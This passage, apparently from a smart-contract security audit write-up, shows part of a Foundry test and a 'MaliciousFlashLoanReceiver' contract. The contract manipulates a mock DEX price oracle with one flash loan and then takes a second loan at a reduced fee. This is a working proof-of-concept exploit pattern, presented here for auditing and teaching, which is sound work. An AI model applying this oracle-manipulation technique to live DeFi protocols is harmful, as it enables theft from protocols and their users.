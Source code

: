 ```javascript
        );

        vm.startPrank(user); 
        tokenA.mint(address(flr), 100e18); 
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, ""); 
        vm.stopPrank(); 

        uint256 attackFee = flr.feeOne() + flr.feeTwo(); 
        console2.log("attack fee is:", attackFee); 

        assert(attackFee < normalFeeCost); 
    }
```

As well as the attack contract: 

```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver { 
    ThunderLoan thunderLoan; 
    address repayAddress; 
    BuffMockTSwap tswapPool; 
    bool attacked; 
    uint256 public feeOne; 
    uint256 public feeTwo; 

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool); 
        thunderLoan = ThunderLoan(_thunderLoan); 
        repayAddress = _repayAddress; 
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        if (!attacked) {
            feeOne = fee;
            attacked = true; 
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18); 
            IERC20(token).approve(address(tswapPool), 50e18); 
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp); 
            // this tanks the price. 

            // now getting a second flashloan. 
            thunderLoan.flashloan(address(this), IERC20(token), amount, ""); 
            // repay
            // IERC20(token).approve(address(thunderLoan), amount + fee); 
            // thunderLoan.repay(IERC20(token), amount + fee); 
            IERC20(token).transfer(address(repayAddress), amount + fee); 

        } else {
            // calculate fee -> to compare with previous fee. 
            feeTwo = fee; 
            // repay
            // IERC20(token).approve(address(thunderLoan), amount + fee); 
            // thunderLoan.repay(IERC20(token), amount + fee); 
            IERC20(token).transfer(address(repayAddress), amount + fee); 
```
